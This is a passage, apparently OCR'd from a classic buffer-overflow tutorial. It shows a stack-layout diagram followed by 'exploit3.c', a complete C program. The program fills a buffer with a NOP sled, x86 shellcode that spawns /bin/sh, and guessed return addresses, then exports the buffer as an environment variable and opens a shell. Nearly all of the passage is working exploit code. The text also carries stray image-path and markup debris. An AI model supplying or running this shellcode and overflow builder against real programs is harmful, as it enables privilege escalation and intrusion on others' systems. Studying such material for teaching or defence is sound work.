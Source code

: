 <------   [NNNNNNNNNNNSSSSSSSSS][0xDE][0xDE][0xDE][0xDE][0xDE]
                 ^                     |
                 |_____________________|
top of                                                            bottom of
stack                                                                 stack

   The new exploits is then:

exploit3.c
</PRE>
```C
#include <stdlib.h>

#define DEFAULT_OFFSET                    0
#define DEFAULT_BUFFER_SIZE             512
#define NOP                            0x90

char shellcode[] =
  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

unsigned long get_sp(void) {
   __asm__("movl %esp,%eax");
}

void main(int argc, char *argv[]) {
  char *buff, *ptr;
  long *addr_ptr, addr;
  int offset=DEFAULT_OFFSET, bsize=DEFAULT_BUFFER_SIZE;
  int i;

  if (argc > 1) bsize  = atoi(argv[1]);
  if (argc > 2) offset = atoi(argv[2]);

  if (!(buff = malloc(bsize))) {
    printf("Can't allocate memory.\n");
    exit(0);
  }

  addr = get_sp() - offset;
  printf("Using address: 0x%x\n", addr);

  ptr = buff;
  addr_ptr = (long *) ptr;
  for (i = 0; i < bsize; i+=4)
    *(addr_ptr++) = addr;

  for (i = 0; i < bsize/2; i++)
    buff[i] = NOP;

  ptr = buff + ((bsize/2) - (strlen(shellcode)/2));
  for (i = 0; i < strlen(shellcode); i++)
    *(ptr++) = shellcode[i];

  buff[bsize - 1] = '\0';

  memcpy(buff,"EGG=",4);
  putenv(buff);
  system("/bin/bash");
}
```
<PRE>
